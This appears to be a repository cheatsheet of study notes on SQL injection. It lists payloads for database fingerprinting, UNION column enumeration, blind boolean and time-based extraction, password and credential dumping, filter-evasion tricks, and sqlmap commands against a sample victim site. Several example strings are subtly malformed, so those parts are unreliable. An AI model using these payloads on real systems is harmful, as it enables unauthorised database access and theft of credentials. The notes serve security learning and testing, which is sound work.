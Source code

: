 # SPIROS (SQL Cheatsheet)

## SQL Cheatsheet:

### Determining which type of DB

|Type of DB|Method|
|---|---|
|MySQL|`SELECT @@version`|
|SQLite|`SELECT sqlite_version()`|
|Oracle|`SELECT banner FROM v$version`, `SELECT version FROM v$instance`|
|Microsoft|`SELECT @@version`|
|PostgreSQL|`SELECT version()`|

### Commenting in SQL

![commenting diagram](img/sql_cheatsheet/sql%20comments.jpg)

The figure above summarizes the syntax for commenting in various SQL DB. Do note that for MySQL, `-- -` is required for commenting instead of `--` as a whitespace or control character is required after the second dash.
> When using `#` as a comment for MySQL, there's no need to add a space after.

### Overview for SQLi

|No.|Steps|Method|
|---|---|---|
|1|Identify instances where application access DB| Look at URL param, cookies, POST data, HTTP headers|
|2|Try injecting SQL| Start with single quotes, concatenator characters, eg: `' 'FOO`|
|3|Determine no. of cols| `' UNION SELECT NULL -- -`, `' UNION SELECT NULL,NULL -- -` ... until there's no error|
|4.1|Determine which cols have string data type| `' UNION SELECT 'a', NULL, NULL -- -`, `' UNION SELECT NULL, 'a', NULL -- -`, `' UNION SELECT NULL, NULL, 'a' -- -` ... until there's no error |
|4.2|Determine which cols have numeric data type| `' UNION SELECT 1, NULL, NULL -- -`, `' UNION SELECT NULL, 1, NULL -- -`, `' UNION SELECT NULL, NULL, 1 -- -`... until there's no error|
|4.3|Use conditional responses if there's no direct method of transmitting data|`admin' and ASCII(SUBSTRING(password,1,1))=113 -- -` login succeeds means first char for password is `q`|
|4.4.1|Use conditional errors if there's no noticeable effect on application behavior|`SELECT 1/0 FROM dual WHERE (SELECT username FROM users WHERE username = 'alice') = 'alice'`. dual is default dummy table present in most DB. If query has error, means `alice` is a valid username|
|4.4.2|Conditional errors (time delay)|`' UNION SELECT IF(ASCII(SUBSTRING(@@version,1,1))=49,BENCHMARK(5000000,SHA1('dummy_data')),NULL),NULL,NULL -- -`. If first char of database version is `1` (ASCII: 49), will have delay in server's response.
|5|Extracting table and cols name|`' UNION SELECT table_name, column_name, NULL FROM information_schema.columns -- -`|
|6.1|Dumping DB using multi cols with string data type|`' UNION SELECT first_name, last_name, employee_id FROM dependents –- -`|
|6.2|Dumping DB using 1 col with string data type|`SELECT CONCAT(username,':',password), NULL, NULL from users -- -`|
|6.3|Dumping DB using multi cols with numeric data type|`' UNION SELECT ASCII(SUBSTRING(password,1,1)),NULL,NULL FROM users WHERE username='admin' -- -` (returns 113, i.e., 'q')|
|6.4|Dumping DB using conditional responses|`admin' and ASCII(SUBSTRING(password,1,1))=113 -- -` (login succeeds) ASCII 113 corresponds to letter 'q'|

### Bypassing filters

|Types of blacklisting filter|Ways to bypass|
|---|---|
|Strings|Use CHAR() function to construct strings. eg: `CHAR(109)+CHAR(97)` is equals to `'ma'`|
|Comments|Use `' OR 'a'='a` instead of `' OR 1=1 -- -`|
|Keywords|Try mix of different cases, adding null byte in front, manipulating string, converting string to URL encoded form. Eg: `SELECT` is banned but can try `SeLeCt`, `%00SELECT`, `SELSELECTECT`, `%53%45%4c%45%43%54`

### SQLmap

|Types of attack|Methods|
|---|---|
|POST request|`sqlmap -u <URL> --cookie='PHPSESSID=op2….' --data='user=a&pass=a' -p user --technique=B --dbs`|
|GET request|`sqlmap -u 'http://victim.site/view.php?id=1141' -p id --technique=U --dbs`|
|Using Request file from Burpsuite|`sqlmap -r <path to .req file> -p user –dbs`|

```
--dbs: show the databases connected to the application
-D database_name --tables: show all tables in db
-T table_name --columns: show all columns of the db
-C column1,column2  --dump: dump all the contents of the columns
```
### Second Order SQLi

When data is first inserted into the DB, it is properly sanitised. Afterwards, it may be processed in unsafe ways.

Eg: When a user search for the term `O'Reilly`, the query term was `SELECT author,title,year FROM books WHERE publisher='O''Reilly'`. Notice how the quotation mark after `O` was escaped. However, when the `publisher` was being called in a later query, it might have the search string `SELECT * FROM publisher='O'Reilly'`. This causes second-order SQLi.

### Good resources

[Burpsuite SQL Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)